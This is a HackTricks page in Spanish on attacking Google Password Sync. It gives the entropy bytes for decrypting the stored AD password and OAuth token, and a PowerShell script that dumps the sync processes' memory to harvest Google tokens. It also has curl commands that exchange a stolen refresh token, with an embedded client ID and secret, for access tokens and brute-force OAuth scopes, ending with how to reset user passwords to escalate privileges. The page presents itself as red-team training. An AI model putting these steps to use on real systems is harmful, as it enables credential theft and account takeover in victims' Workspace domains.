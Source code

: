 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información Básica

Este es el binario y servicio que Google ofrece para **mantener sincronizadas las contraseñas de los usuarios entre el AD** y Workspace. Cada vez que un usuario cambia su contraseña en el AD, se establece en Google.

Se instala en `C:\Program Files\Google\Password Sync` donde puedes encontrar el binario `PasswordSync.exe` para configurarlo y `password_sync_service.exe` (el servicio que seguirá ejecutándose).

### GPS - Configuración

Para configurar este binario (y servicio), es necesario **darle acceso a un principal de Super Admin en Workspace**:

* Iniciar sesión a través de **OAuth** con Google y luego **almacenará un token en el registro (encriptado)**
* Solo disponible en Controladores de Dominio con GUI
* Proporcionando algunas **credenciales de Cuenta de Servicio de GCP** (archivo json) con permisos para **gestionar los usuarios de Workspace**
* Muy mala idea ya que esas credenciales nunca expiran y podrían ser mal utilizadas
* Muy mala idea dar acceso a una SA sobre workspace ya que la SA podría ser comprometida en GCP y sería posible pivotar a Workspace
* Google lo requiere para control de dominio sin GUI
* Estas credenciales también se almacenan en el registro

Respecto al AD, es posible indicarle que use el **contexto de aplicaciones actual, anónimo o algunas credenciales específicas**. Si se selecciona la opción de credenciales, el **nombre de usuario** se almacena dentro de un archivo en el **disco** y la **contraseña** está **encriptada** y almacenada en el **registro**.

### GPS - Extracción de contraseña y token del disco

{% hint style="success" %}
Ten en cuenta que [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) es capaz de detectar **GPS**, obtener información sobre la configuración y **incluso desencriptar la contraseña y el token**.
{% endhint %}

En el archivo **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** es posible encontrar parte de la configuración como el **`baseDN`** del AD configurado y el **`nombre de usuario`** cuyas credenciales se están utilizando.

En el registro **`HKLM\Software\Google\Google Apps Password Sync`** es posible encontrar el **token de actualización encriptado** y la **contraseña encriptada** para el usuario de AD (si la hay). Además, si en lugar de un token, se utilizan algunas **credenciales de SA**, también es posible encontrar esas encriptadas en esa dirección del registro. Los **valores** dentro de este registro son solo **accesibles** por **Administradores**.

La **contraseña encriptada** (si la hay) está dentro de la clave **`ADPassword`** y está encriptada usando la API **`CryptProtectData`**. Para desencriptarla, necesitas ser el mismo usuario que configuró la sincronización de contraseñas y usar esta **entropía** al usar **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

El token encriptado (si lo hay) está dentro de la clave **`AuthToken`** y está encriptado usando la API **`CryptProtectData`**. Para desencriptarlo, necesitas ser el mismo usuario que configuró la sincronización de contraseñas y usar esta **entropía** al usar **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Además, también está codificado usando base32hex con el diccionario **`0123456789abcdefghijklmnopqrstv`**.

Los valores de entropía se encontraron utilizando la herramienta. Se configuró para monitorear las llamadas a **`CryptUnprotectData`** y **`CryptProtectData`** y luego se utilizó la herramienta para lanzar y monitorear `PasswordSync.exe`, que desencriptará la contraseña y el token de autenticación configurados al principio y la herramienta **mostrará los valores de la entropía utilizada** en ambos casos:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Ten en cuenta que también es posible ver los valores **desencriptados** en la entrada o salida de las llamadas a estas APIs también (en caso de que en algún momento Winpeas deje de funcionar).

En caso de que la sincronización de contraseñas se haya **configurado con credenciales de SA**, también se almacenará en claves dentro del registro **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Extracción de tokens de la memoria

Al igual que con GCPW, es posible volcar la memoria del proceso de `PasswordSync.exe` y los procesos de `password_sync_service.exe` y podrás encontrar tokens de actualización y acceso (si ya han sido generados).\
Supongo que también podrías encontrar las credenciales configuradas del AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> y los procesos <code>password_sync_service.exe</code> y buscar tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Generando tokens de acceso a partir de tokens de actualización

Usando el token de actualización, es posible generar tokens de acceso utilizando este y el ID de cliente y secreto de cliente especificados en el siguiente comando:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Tenga en cuenta que incluso teniendo un token de actualización, no es posible solicitar ningún alcance para el token de acceso, ya que solo puede solicitar los **alcances admitidos por la aplicación donde está generando el token de acceso**.

Además, el token de actualización no es válido en todas las aplicaciones.
{% endhint %}

Por defecto, GPS no tendrá acceso como el usuario a todos los posibles alcances de OAuth, por lo que utilizando el siguiente script podemos encontrar los alcances que se pueden usar con el `refresh_token` para generar un `access_token`:

<details>

<summary>Script Bash para fuerza bruta de alcances</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Y este es el resultado que obtuve en el momento de la escritura:
```
https://www.googleapis.com/auth/admin.directory.user
```
¿Cuál es el mismo que obtienes si no indicas ningún alcance?

{% hint style="danger" %}
Con este alcance podrías **modificar la contraseña de un usuario existente para escalar privilegios**.
{% endhint %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
